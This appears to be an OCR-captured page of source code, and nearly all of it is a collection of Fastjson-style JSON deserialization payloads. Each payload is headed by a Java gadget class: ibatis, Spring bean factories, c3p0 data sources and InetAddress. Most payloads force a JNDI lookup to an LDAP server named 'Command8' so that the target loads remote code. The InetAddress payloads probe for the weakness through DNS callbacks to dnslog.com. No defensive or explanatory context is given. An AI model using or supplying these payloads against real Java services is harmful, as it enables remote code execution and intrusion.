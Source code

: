 ```json
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties": {
      "data_source": "ldap://127.0.0.1:23457/Command8"
    }
}
```
SimpleJndiBeanFactory
```json
{
    "@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean",
    "targetBeanName": "ldap://127.0.0.1:23457/Command8",
    "propertyPath": "su18",
    "beanFactory": {
      "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
      "shareableResources": [
        "ldap://127.0.0.1:23457/Command8"
      ]
    }
}
```
DefaultBeanFactoryPointcutAdvisor
```json
{
  "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor",
   "beanFactory": {
     "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
     "shareableResources": [
       "ldap://127.0.0.1:23457/Command8"
     ]
   },
   "adviceBeanName": "ldap://127.0.0.1:23457/Command8"
},
{
   "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"
}
```
WrapperConnectionPoolDataSource
```json
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
    "userOverridesAsString": "HexAsciiSerializedMap:aced000...6f;"
  }
```
JndiRefForwardingDataSource
```json
{
    "@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
    "jndiName": "ldap://127.0.0.1:23457/Command8",
    "loginTimeout": 0
  }
```
InetAddress
```json
{
	"@type": "java.net.InetAddress",
	"val": "http://dnslog.com"
}
```
Inet6Address
```json
{
	"@type": "java.net.Inet6Address",
	"val": "http://dnslog.com"
}
```